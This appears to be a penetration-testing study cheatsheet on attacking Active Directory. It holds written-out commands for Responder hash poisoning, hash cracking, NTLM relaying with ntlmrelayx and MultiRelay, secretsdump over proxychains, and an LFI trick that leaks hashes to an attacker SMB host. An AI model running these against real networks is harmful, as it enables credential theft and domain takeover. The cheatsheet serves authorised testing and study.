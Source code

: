 # Active Directory  
AD Overview and tools.   
## Contents 
- [Active Directory](#active-directory)
  * [Contents](#contents)
  * [Active Directory Overview](#active-directory-overview)
  * [My AD Cheatsheets](#my-ad-cheatsheets)
  * [Other Cheat Sheets](#other-cheat-sheets)
  * [References](#references)
    + [Important Files to Check on the DC](#important-files-to-check-on-the-dc)
  * [Tools](#tools)
  * [General Tools](#general-tools)
  * [Responder](#responder)
    + [Crack Hashes from Responder](#crack-hashes-from-responder)
    + [NTLM Relay Attack](#ntlm-relay-attack)
  
## Active Directory Overview 
To gain control over a domain:  
Compromise member of Domain Admin group.   
Compromise domain controller -> can modify all domain-joined computers or execute applications on them. 

AD: depends on DNS server, typical DC hosts DNS server that is authoritative for a given domain.    
Account types: domain admins, service accounts (can be domain admins), local admins (can't access the DC), domain users.     
Authentication mechanisms: Kerberos (uses ticket granting tickets and services to authenticate users) or NTLM (traditional Windows authentication).     
Kerberos: default authentication service that uses ticket-granting tickets and service tickets to authenticate users and give users access to other resources across the domain. Intended to be more secure than NTLM (uses 3rd party ticket authorization and stronger encryption).      
[PayloadAllTheThings - Most Common Paths to AD Compromise](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise)       
[Pentest AD Mindmap](https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2023_02.svg)    
Typical AD pen test:
- Exploit host on domain and gain access as a domain user 
- Enumerate domain users and groups.  
- Privilege escalate or move laterally.     
- Get Domain Admin or Service Account access and onto the domain controller.     

Common Ways to Get AD Creds:    
- NTLM Authenticated Services  
- LDAP Bind Credentials    
- Authentication Relays      
- Microsoft Deployment Toolkit   
- Configuration Files       

## My AD Cheatsheets
[Attacks](https://github.com/lw8192/Red-Team-Rising/blob/main/ActiveDirectory/Attacks.md)        
[Lateral Movement](https://github.com/lw8192/Red-Team-Rising/blob/main/ActiveDirectory/LateralMovement.md)   
## Other Cheat Sheets
[AD Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)     
[AD Lateral Movement and Persistence Cheatsheet](https://bhanusnotes.blogspot.com/2020/12/ad-pentest-lateral-movement-persistance.html)  
[AD Cheat sheet](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)   
[Pentesting AD CheatSheet](https://i.ibb.co/TKYNCNP/Pentest-ad.png)  
[Integratio IT Cheat Sheet](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet)  

## References      
[WADComs](https://wadcoms.github.io/)    
    
### Important Files to Check on the DC
    %SYSTEMROOT%\System32\ntds.dit             #AD database with user password hashes   
    %SYSTEMROOT%\NTDS\ntds.dit                 #AD backup

## Tools   
C2 Frameworks:
[PowerShell Empire](https://github.com/BC-SECURITY/Empire), Covenant    
[evil-winrm](https://github.com/nubix/evil-winrm): access Windows RM, TCP port 5985 or 5986 open.   
Responder             
Crackmapexec  
[BloodHound](https://github.com/BloodHoundAD/BloodHound), [SharpHound](https://github.com/BloodHoundAD/SharpHound) 
[Rubeus](https://github.com/GhostPack/Rubeus)       
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 )   
[Mimikatz](https://github.com/gentilkiwi/mimikatz), [Mimikatz Cheatsheet](https://offsec.red/mimikatz-cheat-sheet/)      

## General Tools 
[Impacket](https://github.com/SecureAuthCorp/impacket): collection on Python classes for working with network protocols.       
Can be finicky - you may need to uninstall / reinstall when updating if the default Kali Impacket library is being used.    

    #if not properly installed 
    apt install impacket-scripts  
    /usr/share/doc/python3-impacket/examples  

If running inside a lab network:     
[Use Impacket static binaries](https://github.com/ropnop/impacket_static_binaries/releases/tag/0.9.22.dev-binaries) or binaries [here](https://github.com/Qazeer/OffensivePythonPipeline/tree/main), compile your own or manually install      

    #manual install (recommend trying to compile a binary before doing this)       
    upload Impacket files to target and run install script    
    sudo python3 setup.py install    
    
[ADSC-Pwn](https://github.com/bats3c/ADCSPwn)   

## Responder 
Not allowed on the OSCP exam, but a common pen testing tool.                
Allows you to spoof various services then capture hashes from devices that try to authenticate to those.  
Common use: poison responses during NetNTLM authentication to capture credentials. Might be able to relay the challenge instead of just capturing it (if SMB signing is not enforced). Ref: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html       
  
Install:   

    git clone https://github.com/lgandx/Responder   
Responder Usage:   
Config file: edit responder.conf to disable SMB / HTTP servers, change RespondTo arguement to target a specific host     
Past sessions are logged to Responder/logs    

     sudo responder.py -I eth0   #start on specified interface. Hashes will be captured when a device tries to authenticate to resources on the network.               
     sudo responder.py -I eth0 -A    #analyze / listen mode, no active poisoning    
    
You might be able to use a LFI vulnerability to request a resource and capture a hash using Responder. Ex - http://site.com/?page=//10.10.14.25/somefile           
Captured hashes will be stored in the logs folder, in a .txt file named for the protocol hash type and IP captured from.      

    username::domain:ServerChallenge:NTproofstring:modifiedntlmv2response   #NTLMv2 Responder capture format       
### Crack Hashes from Responder     

    john hashes.txt   #John the Ripper will automatically detect the format of hashes collected by Responder.    
    hashcat -m 5500   #NTLMv1 (hashes captured from using a tool like Responder)     
    hashcat -m 5600   #NTLMv2 (hashes captured from using a tool like Responder)   

### NTLM Relay Attack       
Use NTLMRelay or MultiRelay to relay the credentials to any SMB server which has SMB signing disabled (can't relay the creds back to the source computer unless you are relaying them to a different service). Windows workstations have SMB signing disabled by default.          
[byt3bl33d3r Guide to NTLM Relaying](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)    
Recon: RunFinger.py or Crackmapexec to identify hosts, OS and SMB info. Check if SMB signing is not enabled and you can perform a relay attack:                    
 
    /opt/Responder/tools $ python3 RunFinger.py -i 172.16.1.1/24       
    crackmapexec smb --gen-relay-list smb_targets.txt 192.168.1.0/24

[NTLMRelay - Impacket Script](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
You might need to disable the SMB or HTTP servers used by Responder to avoid conflicts.    
Usage:     

    sudo python3 ntlmrelayx.py -tf targets -smb2support     
    sudo python3 ntlmrelayx.py -socks -smb2support -tf smb_targets.txt     
    
Perform a SAM dump using NTLMRelay    
    python3 ntlmrelayx.py -of hashes -tf targets.txt -smb2support    
    # then run Responder with SMB / HTTP off      
    sudo python3 Responder.py -I eth0 -dwv     
Proxychain SMB Connections - allows you to use captured creds with other Impacket scripts    

    python3 ntlmrelayx.py -tf targets.txt -smb2support -socks   
    #Config Proxychains    
    sudo proxychains secretdump.py -no-pass <domain>/<user>@<host_ip>    #used captured creds over the Proxy         
[MultiRelay - Built into the Responder Toolkit](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)     
Requirements:     
[Pycryptdome](https://github.com/Legrandin/pycryptodome/)    

    sudo apt-get -y install python3-pip gcc-mingw-w64-x86-64 python-crypto screen      
    sudo pip3 install pycryptodomex
    cd Responder/tools/
    x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv    
    x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode     
Compile MultiRelay yourself using Pyinstaller and force PyCrypto to be included:    

    pyinstaller MultiRelay.py --hiddenimport=pycryptodomex --onefile              
Usage:     

    /opt/Responder/tools $ python3 MultiRelay.py -t 172.16.1.5 -u ALL -d    #Relay auth requests for all users, dump local account hashes   
    /opt/Responder/tools $ python3 MultiRelay.py -t 10.10.10.10 -c "whoami"   #exec a command    
    #can spawn a Meterpreter shell using exploit/multi/script/web_delivery using a PowerShell IEX command        
